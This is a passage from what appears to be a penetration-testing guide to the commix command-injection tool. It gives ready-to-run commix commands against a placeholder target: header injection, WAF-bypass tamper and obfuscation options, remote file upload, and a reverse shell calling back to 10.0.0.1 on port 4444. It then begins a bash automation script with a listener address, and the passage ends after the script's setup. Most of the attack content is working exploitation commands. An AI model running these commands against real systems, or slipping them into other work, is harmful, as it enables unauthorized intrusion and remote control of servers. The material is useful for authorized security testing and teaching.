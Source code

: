 #### HTTP Headers

```bash
python commix.py -u "http://vulnerable-site.com/search.php" --headers="User-Agent:Mozilla/5.0;Referer:http://example.com;cmd=query"
```

### Bypassing Security Mechanisms

#### WAF Bypass

```bash
python commix.py -u "http://vulnerable-site.com/search.php?cmd=query" --tamper=space2ifs
```

#### Obfuscation Techniques

```bash
python commix.py -u "http://vulnerable-site.com/search.php?cmd=query" --prefix="'" --suffix="'" --technique=classic
```

#### Custom Separators

```bash
python commix.py -u "http://vulnerable-site.com/search.php?cmd=query" --separator="||"
```

### Advanced Exploitation

#### File Upload

```bash
python commix.py -u "http://vulnerable-site.com/search.php?cmd=query" --file-upload="/path/to/local/file" --file-dest="/path/to/remote/file"
```

#### Reverse Shell

```bash
python commix.py -u "http://vulnerable-site.com/search.php?cmd=query" --reverse-tcp 10.0.0.1 4444
```

### Commix Automation Script

This script automates a thorough command injection assessment process:

```bash
#!/bin/bash
# commix_comprehensive.sh - Comprehensive command injection assessment

# Target configuration
TARGET_URL=$1
OUTPUT_DIR="commix_results_$(date +%Y%m%d_%H%M%S)"
TECHNIQUES="classic,eval-based,time-based,file-based,tempfile-based"
LISTEN_IP="10.0.0.5"  # Change to your IP
LISTEN_PORT="4444"
USER_AGENT="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.110 Safari/537.36"

# Check if a target was provided
if [ -z "$TARGET_URL" ]; then
  echo "Usage: $0 <target_url>"
  echo "Example: $0 'http://vulnerable-site.com/search.php?cmd=query'"
  exit 1
fi

# Create output directory
mkdir -p "$OUTPUT_DIR"
```